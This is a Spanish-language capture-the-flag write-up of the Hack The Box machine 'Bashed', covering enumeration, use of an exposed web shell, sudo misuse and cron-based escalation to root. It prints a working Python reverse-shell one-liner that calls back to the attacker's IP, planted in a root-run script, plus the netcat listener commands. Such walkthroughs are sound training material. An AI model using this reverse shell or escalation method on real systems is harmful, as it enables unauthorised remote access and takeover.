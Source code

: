 ```yaml
---
layout: default
title: Bashed
---
```

# Bashed HTB
## ENUMERACIÓN

Confirmamos con el comando ping si tenemos conexión con la máquina, mandando a esta peticiones ICMP echo.

```bash
$ ping -c 1 10.129.58.114
PING 10.129.58.114 (10.129.58.114) 56(84) bytes of data.
64 bytes from 10.129.58.114: icmp_seq=1 ttl=63 time=7.72 ms

--- 10.129.58.114 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.716/7.716/7.716/0.000 ms
```

Vemos que recibimos un paquete, lo que significa que sí tenemos conexión con la máquina, procedemos a buscar puertos que tiene abiertos:

```bash
$ nmap 10.129.58.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:29 CDT
Nmap scan report for 10.129.58.114
Host is up (0.011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

Vemos que tiene el puerto 80 (http) abierto, vamos a tratar de sacar la versión con un segundo escaneo exclusivamente a ese puerto:

```bash
$ nmap -sCV -p80 10.129.58.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:30 CDT
Nmap scan report for 10.129.58.114
Host is up (0.0084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Vemos gracias al título de la web que parece ser un sitio en desarrollo por el usuario **Arrexel**, vamos a echar un vistazo a la web:

![bashed]({{ "/assets/images/bashed1.png"}})

Si pulsamos en la flecha nos redirige a una página con capturas de pantalla y demuestra y avisa que ha probado su herramienta en la web, la cual es una web shell semi-interactiva:

![bashed]({{ "/assets/images/bashed2.png"}})

Según las capturas lo encontraríamos en el directorio **uploads**, no obstante, ahí no encontramos el web shell, entonces, vamos a hacer fuzzing de directorios con herramientas como **fuff**:

```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.58.114/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 7ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 8ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 804ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 7ms]
```
Vemos que encontramos el directorio dev, entre otros, al cual si navegamos encontramos lo siguiente:

![bashed]({{ "/assets/images/bashed3.png"}})

Si nos metemos a alguno de ambos, vemos que tenemos la shell semi interactiva que śe testeó en el servidor:

![bashed]({{ "/assets/images/bashed4.png"}})

Vamos a mandarnos una reverse shell con Python, el cual está instalado en el servidor, así podemos conseguir una shell más interactiva
, tenemos antes que iniciar un oyente en nuestra máquina atacante:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

Tras eso ejecutamos la reverse shell en la web shell semi-interactiva que encontramos en el servidor:

![bashed]({{ "/assets/images/bashed5.png"}})

Y una vez ejecutado deberíamos tener la shell en nuestra máquina:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.58.114] 50652
$ whoami
whoami
www-data
```

Efectivamente, tenemos la reverse shell, aunque la haremos más interactiva con los siguientes comandos:

```bash
$ stty raw -echo;fg
```

Esto lo ejecutamos en nuestra máquina atacante, tras eso, en el servidor ejecutamos los siguientes:

```bash
$ export TERM=xterm
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ya deberíamos tener una shell interactiva.

Si listamos los directorios que existen en **/home** encontramos el de Arrexel y el de scriptmanager:

```bash
www-data@bashed:/var/www/html/dev$ ls /home
arrexel  scriptmanager
```

Si listamos el contenido de **/home/arrexel** encontramos la user flag, la cual podemos leer con los permisos que tenemos:

```bash
www-data@bashed:/var/www/html/dev$ cd /home/arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
```
## Escalada de privilegios

Ahora, buscaremos la forma de escalar privilegios, primero viendo nuestros permisos como sudo con **sudo -l**:

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Como podemos ver podemos ejecutar sin necesidad de contraseña cualquier cosa como el usuario **scriptmanager** o su grupo, por lo tanto vamos a suplantarle:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

Como podemos ver somos el usuario **scriptmanager**, ahora debemos intentar escalar a root.

En **/scripts**, que es un directorio creado por alguien, no es predeterminado del sistema, encontramos 2 ficheros:

```bash
scriptmanager@bashed:~$ ls -l /scripts/ 
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 244 Jun  4 09:23 test.py
-rw-r--r-- 1 root          root           21 Jun  4 09:16 test.txt
```

El de python tenemos capacidad de escritura, ya que somos el propietario, en el txt, solo de lectura, pero es del usuario root.

```bash
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$
```

Como podemos ver, el script que tenemos permiso de escritura parece abrir y escribir en el archivo de texto, en el cual solo tiene permisos de escritura por el usuario root, y si modificamos el texto que queremos que se escriba en el script, se cambia en el fichero test.txt como al minuto mas o menos, podríamos ver cada cuanto se ejecuta con herramientas como **pspy**, no obstante, ya sabemos que es una cron que se ejecuta como root, así que modificamos el script para que nos envíe una reverse shell a un puerto que pondremos a escucha en nuestra máquina atacante.

El script modificado luce así:

```bash
scriptmanager@bashed:/scripts$ cat test.py
import os
os.system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.210",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'')
```

Nos envía una reverse shell al puerto 4444 que tendremos a escucha, si se ejecuta eventualmente como root como tenemos pensado, deberíamos de obtener la reverse shell como usuario root:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.189.48] 37778
# whoami
whoami
root
# ls /root	
ls /root
root.txt
```

Efectivamente, recibimos la reverse shell como root y podemos ver la root flag en **/root**!


